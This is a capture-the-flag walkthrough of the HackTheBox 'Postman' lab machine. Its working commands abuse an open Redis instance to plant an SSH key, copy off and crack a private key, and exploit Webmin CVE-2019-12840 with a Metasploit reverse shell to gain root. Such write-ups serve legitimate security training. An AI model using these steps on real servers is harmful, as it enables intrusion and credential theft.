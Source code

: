 # Target
| Category          | Details                                                |
|-------------------|--------------------------------------------------------|
| 📝 **Name**       | [Postman](https://app.hackthebox.com/machines/Postman) |  
| 🏷 **Type**       | HTB Machine                                            |
| 🖥️ **OS**        | Linux                                                  |
| 🎯 **Difficulty** | Easy                                                   |

# Scan
```
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.910
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Attack path
1. [Gain foothold with unsecured Redis instance by saving stored `id_rsa.pub` key to `authorized_keys` file](#gain-foothold-with-unsecured-redis-instance-by-saving-stored-id_rsapub-key-to-authorized_keys-file)
2. [Escalate to `root` user using (authenticated) RCE in Webmin 1.910 (CVE-2019-12840)](#escalate-to-root-user-using-authenticated-rce-in-webmin-1910-cve-2019-12840)

### Gain foothold with unsecured Redis instance by saving stored `id_rsa.pub` key to `authorized_keys` file

#### Generate RSA key pair
```
┌──(magicrc㉿perun)-[~/attack/HTB Postman]
└─$ ssh-keygen -t rsa -b 4096 -f id_rsa
Generating public/private rsa key pair.
Enter passphrase for "id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:XbB9lS2j3GTjYLfraUCQDeTt8Eq5ZRWEfMrgB7UpadU magicrc@perun
The key's randomart image is:
+---[RSA 4096]----+
|         .+*o+o +|
|         .=B*oE+.|
|         .BB*@o= |
|         o.BBo+  |
|        S +o=  . |
|         . =. .  |
|          o  o . |
|              +  |
|             .   |
+----[SHA256]-----+
```

#### Add padding to `id_rsa.pub`
```
┌──(magicrc㉿perun)-[~/attack/HTB Postman]
└─$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > id_rsa.pub.pad
```

#### Store `id_rsa.pub`
```
┌──(magicrc㉿perun)-[~/attack/HTB Postman]
└─$ redis-cli -h $TARGET flushall && \
cat id_rsa.pub.pad | redis-cli -h $TARGET -x set rsa_pub
OK
OK
```

#### Save stored `id_rsa.pub` to `/var/lib/redis/.ssh/authorized_keys`
```
┌──(magicrc㉿perun)-[~/attack/HTB Postman]
└─$ redis-cli -h $TARGET              
10.129.2.1:6379> config get dir
1) "dir"
2) "/var/lib/redis"
10.129.2.1:6379> config set dir /var/lib/redis/.ssh
OK
10.129.2.1:6379> config set dbfilename "authorized_keys"
OK
10.129.2.1:6379> save
OK
10.129.2.1:6379>
```

#### Confirm foothold
```
┌──(magicrc㉿perun)-[~/attack/HTB Postman]
└─$ ssh redis@$TARGET -i id_rsa
redis@Postman:~$ id
uid=107(redis) gid=114(redis) groups=114(redis)
```

### Escalate to `root` user using (authenticated) RCE in Webmin 1.910 ([CVE-2019-12840](https://nvd.nist.gov/vuln/detail/cve-2019-12840))

#### Exfiltrate backup of encrypted private RSA key 
Key file found with `linPEAS`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Postman]
└─$ scp -i id_rsa redis@$TARGET:/opt/id_rsa.bak .
```

#### Break encryption with John the Ripper
```
┌──(magicrc㉿perun)-[~/attack/HTB Postman]
└─$ ssh2john id_rsa.bak  > id_rsa.bak.hash && \
john id_rsa.bak.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)     
1g 0:00:00:00 DONE (2025-05-08 17:36) 2.941g/s 725929p/s 725929c/s 725929C/s confused6..comett
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

#### Use discovered credentials for remote command execution with `root` privileges
```
┌──(magicrc㉿perun)-[~/attack/HTB Postman]
└─$ msfconsole -q -x "use linux/http/webmin_packageup_rce; set PASSWORD computer2008; set RHOSTS $TARGET; set SSL true; set USERNAME Matt; set LHOST tun0; set LPORT 4444; run"
[*] Using configured payload cmd/unix/reverse_perl
PASSWORD => computer2008
RHOSTS => 10.129.2.1
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
USERNAME => Matt
LHOST => tun0
LPORT => 4444
[*] Started reverse TCP handler on 10.10.14.161:4444 
[+] Session cookie: b3d26abab46b4d4c54f8a10b002b0639
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.161:4444 -> 10.129.2.1:53572) at 2025-05-08 18:06:06 +0200

id
uid=0(root) gid=0(root) groups=0(root)
```